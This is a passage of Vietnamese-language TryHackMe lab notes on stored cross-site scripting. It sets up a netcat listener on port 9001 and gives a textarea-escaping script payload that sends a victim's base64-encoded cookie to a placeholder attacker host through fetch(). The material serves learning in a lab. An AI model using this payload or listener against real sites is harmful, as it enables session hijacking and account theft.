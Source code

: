 Một số thông tin hữu ích từ User là ***Cookie*** của họ, có thể dùng Cookie này để leo thang đặc quyền, bằng cách chiếm quyền điều khiển đăng nhập của họ. Để thực hiện, Payload cần phải trích xuất được Cookie của User, chuyển nó sang Web Server khác.

=> Thiết lập 1 Server lắng nghe để nhận thông tin:

Sử dụng tool ***NetCat***, nếu muốn nghe trên cổng 9001, dùng lệnh:
	    
    nc -l -p 9001

Tùy chọn ***-l*** cho biết sử dụng NetCat ở chế độ ***Listen***, tùy chọn ***-p*** cho biết số Port. Để tránh việc phân giải tên Server qua DNS, có thể thêm tùy chọn ***-n***; ngoài ra, để phát hiện lỗi, nên chạy NetCat ở chế độ đầy đủ hơn với tùy chọn ***-v***:

=> Lệnh cuối cùng là 
	
    nc -n -l -v -p 9001

Có thể viết là 
	
    nc -nlvp 9001

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image137.png?raw=true)

=> Tạo vé mới với nội dung: 

    </textarea><script>fetch(‘http://URL_OR_IP:PORT_NUMBER?cookie=’ + btoa(document.cookie) );</script>

- ***fetch()***: câu lệnh tạo HTTP request

- ***URL_OR_IP***: địa chỉ IP 

- ***PORT_NUMBER***: số cổng

- ***?cookie=***: là query string chứa cookie của nạn nhân

- ***btoa()***: mã hóa cookie của nạn nhân dưới dạng base64

- ***document.cookie***: truy cập Cookie của nạn nhân
